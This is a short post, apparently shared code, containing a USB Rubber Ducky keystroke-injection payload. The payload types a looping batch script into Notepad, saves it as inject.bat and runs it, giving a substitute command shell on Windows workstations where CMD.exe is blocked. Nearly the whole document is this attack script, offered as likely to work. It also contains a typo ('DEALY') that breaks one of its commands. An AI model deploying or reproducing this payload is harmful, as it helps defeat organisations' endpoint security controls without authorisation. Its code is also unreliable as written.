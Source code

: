 This Ducky Payload is made to create a local substitution for cmd on a windows workstation that has CMD.exe blocked but not not batch. Many companies use batch scripts to automate tasks so this will most likely work. But remember, DO YOUR RESEARCH!!!

REM Code By: Hitchhiker and SPYder007
REM Cleanup By: SPYder007
REM Original code by: Hitchhiker
DELAY 1000
GUI r
DELAY 250
STRING notepad
ENTER
DELAY 100
STRING :l
ENTER
DELAY 100
STRING set /p c=
ENTER
DELAY 100 
STRING %c%
ENTER
DELAY 100
STRING goto l
DELAY 100
CTRL s
DELAY 250
STRING C:\Program Files\inject.bat
DEALY 100
ENTER
DELAY 250
ENTER
DELAY 100
ENTER
DELAY 250
ALT F4
DELAY 250
GUI r
DELAY 250
STRING inject.bat
ENTER